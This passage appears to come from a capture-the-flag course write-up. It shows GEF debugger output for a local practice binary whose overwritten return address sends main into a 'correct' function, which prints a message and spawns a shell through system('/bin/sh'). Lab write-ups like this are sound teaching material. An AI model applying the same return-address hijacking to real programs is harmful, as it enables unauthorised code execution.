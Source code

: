 ```sh
$r12   : 0x0000555555555090  →  <_start+0> xor ebp, ebp
$r13   : 0x0
$r14   : 0x0
$r15   : 0x0
$eflags: [ZERO carry PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000
────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x00007fffffffdfb8│+0x0000: 0x0000555555555175  →  <correct+0> push rbp  ← $rsp
0x00007fffffffdfc0│+0x0008: 0x00007fffffffe0a8  →  0x00007fffffffe3b4  →  "/home/nihaal/Desktop/ctf-courses/Pwn/PWN 200/passw[...]"
0x00007fffffffdfc8│+0x0010: 0x0000000100000000
0x00007fffffffdfd0│+0x0018: 0x0000555555555194  →  <main+0> push rbp
0x00007fffffffdfd8│+0x0020: 0x00007ffff7e157cf  →  <init_cacheinfo+287> mov rbp, rax
0x00007fffffffdfe0│+0x0028: 0x0000000000000000
0x00007fffffffdfe8│+0x0030: 0x3ffcb50f7bb44b62
0x00007fffffffdff0│+0x0038: 0x0000555555555090  →  <_start+0> xor ebp, ebp
──────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
   0x5555555551fb <main+103>       call   0x555555555040 <puts@plt>
   0x555555555200 <main+108>       mov    eax, 0x0
   0x555555555205 <main+113>       leave
 → 0x555555555206 <main+114>       ret
   ↳  0x555555555175 <correct+0>      push   rbp
      0x555555555176 <correct+1>      mov    rbp, rsp
      0x555555555179 <correct+4>      lea    rdi, [rip+0xe88]        # 0x555555556008
      0x555555555180 <correct+11>     call   0x555555555040 <puts@plt>
      0x555555555185 <correct+16>     lea    rdi, [rip+0xea1]        # 0x55555555602d
      0x55555555518c <correct+23>     call   0x555555555050 <system@plt>
──────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "password", stopped 0x555555555206 in main (), reason: BREAKPOINT
────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x555555555206 → main()
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤
```

If we continue execution with the `continue` or `c` command, we'll actually see a message getting printed out indicating that we typed in the correct password. Note that the `set follow-fork-mode child` command was used here to make sure that we debugged the child process when the call to `system("/bin/sh")` occurs in `correct()`.

```sh
gef➤  set follow-fork-mode child
gef➤  continue
Continuing.
You entered in the correct password!
[Attaching after process 3124 vfork to child process 3132]
[New inferior 2 (process 3132)]
[Detaching vfork parent process 3124 after child exec]
[Inferior 1 (process 3124) detached]
process 3132 is executing new program: /usr/bin/dash
[...]
```
